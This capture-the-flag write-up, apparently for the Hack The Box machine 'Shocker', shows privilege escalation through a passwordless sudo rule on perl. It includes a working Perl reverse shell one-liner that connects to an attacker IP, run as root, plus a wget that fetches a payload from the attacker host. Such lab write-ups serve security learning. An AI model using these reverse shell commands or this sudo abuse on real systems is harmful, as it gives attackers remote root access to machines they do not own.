 # Shell as Shelly

We can now grab the user flag:

![[Pasted image 20210614103814.png]]

## Basic Enumeration

We have a lot of groups:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

The `adm` group stands out, as it usually means we can read `/var/log`.

However, a simpler misconfiguration was present:

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can run perl with root permissions. So we can setup a perl script to give us a shell.

[Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has an example of a perl reverse shell:

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

I created a `rev.cgi` file on my local box, according to [a tutorial](https://www.lcn.com/support/articles/how-to-create-a-perl-script/):

```bash
┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ cat rev.cgi 
#!/usr/bin/perl

perl -e 'use Socket;$i="10.10.16.211";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

I served the file and downloaded it to `/tmp`:

```bash
shelly@Shocker:/tmp$ wget 10.10.16.211:8000/rev.cgi
wget 10.10.16.211:8000/rev.cgi
--2021-06-14 05:52:18--  http://10.10.16.211:8000/rev.cgi
Connecting to 10.10.16.211:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 239 [application/octet-stream]
Saving to: 'rev.cgi'

     0K                                                       100% 19.6K=0.01s

2021-06-14 05:52:18 (19.6 KB/s) - 'rev.cgi' saved [239/239]
```

Then ran it according to [this](https://stackoverflow.com/questions/17748688/running-perl-script-from-command-line):

```bash
shelly@Shocker:/tmp$ sudo /usr/bin/perl rev.cgi
sudo /usr/bin/perl rev.cgi
syntax error at rev.cgi line 3, near "perl -e "
Execution of rev.cgi aborted due to compilation errors.
```

It won't compile. I tried it as a `.pl` file:

```bash
shelly@Shocker:/tmp$ mv rev.cgi rev.pl
mv rev.cgi rev.pl
shelly@Shocker:/tmp$ sudo /usr/bin/perl rev.pl
sudo /usr/bin/perl rev.pl
syntax error at rev.pl line 3, near "perl -e "
Execution of rev.pl aborted due to compilation errors.
```

Then I realised that the payload I copied wasn't the syntax for a perl file - it was just for an inline perl command in bash. So I didn't even need a file to execute from!

I ran this command instead:

```bash
shelly@Shocker:/tmp$ sudo perl -e 'use Socket;$i="10.10.16.211";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

And got a shell!

![[Pasted image 20210614105016.png]]

That's the box!

![[Pasted image 20210614105225.png]]